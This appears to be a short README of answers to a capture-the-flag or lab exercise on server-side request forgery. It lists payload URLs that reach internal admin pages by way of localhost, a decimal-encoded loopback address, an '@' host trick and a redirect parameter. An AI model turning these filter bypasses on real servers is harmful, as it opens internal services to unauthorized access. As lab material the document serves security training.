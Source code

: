 readme


task0 : http://127.0.0.1:3000/admin/list-of-items

task1 : http%3a//2130706433%3a3001/admin/list-of-items

task2 : http://localhost:3000@discount.newshop.tn:3002/admin/list-of-items

task3 : http://web0x08.hbtn:3003/app4-1/product/nextProduct?path=http://localhost:8080/admin/

abuse readirect from the other vulnerable request in the api request to get the flag
